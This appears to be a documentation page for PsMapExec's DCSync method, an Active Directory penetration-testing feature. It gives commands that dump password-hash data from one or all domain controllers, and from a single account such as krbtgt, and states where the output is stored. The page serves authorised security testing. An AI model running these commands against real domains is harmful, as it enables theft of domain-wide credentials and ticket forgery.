 # DCSync

Performs DCSync against specified domain controllers. Output for each system is stored in $pwd\PME\DCSync\DCSync_Full_Dump unless a specific user is targeted in which case data is stored in $pwd\PME\DCSync\DCSync_User_Dump

### Target a specific DC

    PsMapExec -Method dcsync -Targets DC01.security.local -ShowOutput

### Target all DCs (Syncs all so very noisy)

    PsMapExec -Method dcsync -Targets DC -ShowOutput

It is also possible to only sync a single user. It is highly recommended to ensure when doing so, to append the domain netbios name to the username.

    PsMapExec -Method dcsync -Targets DC01 -option "dcsync:security\krbtgt" -ShowOutput
